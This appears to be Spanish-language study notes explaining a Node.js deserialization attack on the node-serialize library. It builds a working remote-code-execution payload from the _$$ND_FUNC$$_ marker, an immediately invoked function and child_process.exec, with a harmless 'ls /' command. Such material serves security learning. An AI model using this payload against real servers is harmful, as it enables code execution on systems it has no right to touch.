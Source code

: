 Pegaremos este código en un archivo llamado **serialize.js**. Esta función se encargará de **serializarnos algo que le pasemos**, y en este caso se está enviando un ``ls /``, de primeras esto no se debería ejecutar, lo que sucederá es que nos va a serializar la instrucción como tal, de forma que si hacemos un ``node serialize.js`` tendremos la función serializada correctamente.

- ``{"rce":"_$$ND_FUNC$$_function(){\n require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });\n }"}``

De esta manera al enviarlo al servidor sería interpretado, pero de primeras no debería ejecutarlo. 

Algo a tener en cuenta es que hay un concepto llamado **``IIFE``** que viene de *Immediately Invoked Function Expression* que lo que nos permite es invocar o hacer la llamada inmediatamente, por ejemplo lo haremos en la serialización. Para hacer esto entraremos al archivo *serialize.js* y agregaremos ``()``.

```js
var y = {
 rce : function(){
 require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });
 }(),
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```

Y si ahora ejecutamos ``node serialize.js``, a la hora de serializarlo en vez de mostrarnos el oneliner anterior, nos ejecuta el comando ``ls /``.

![[ATK D 20.png]]

Cabe destacar que esto es de cara a la serialización, lo que el servidor hace es que la **data que yo serializo/envío** me lo **deserializa**, por lo tanto la instrucción estaría interesante que **nos la ejecutara el servidor** a la hora de **Deserializar la data**, esto se puede hacer perfectamente, para esto debemos eliminar el *IIFE* ``()`` del archivo *serialize.js* para volver a tener el dato serializado como antes en el oneliner.

En la web se nos comparte además del código anterior para **Serializar** la data un código para **Deserializar** la data

```js
var serialize = require('node-serialize');
var payload = '';
serialize.unserialize(payload);
```

Copiaremos este código y lo meteremos en un archivo llamado *unserialize.js*. 
Lo que tenemos que entender es que la **variable** ``payload`` es lo que nosotros deseemos colocar, por lo tanto dentro de este campo vamos a tener que colocar la **data serializada** que nos brinda el comando ``node serialize.js`` para que luego el código lo **Deserialice**. ==Importante tener en cuenta que hay que quitar los saltos de linea  "\n" y escapar con "\" las comillas simples de adentro, todo esto quedando así.==

```js
var serialize = require('node-serialize');
var payload = '{"rce":"_$$ND_FUNC$$_function(){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}"}';
serialize.unserialize(payload);
```
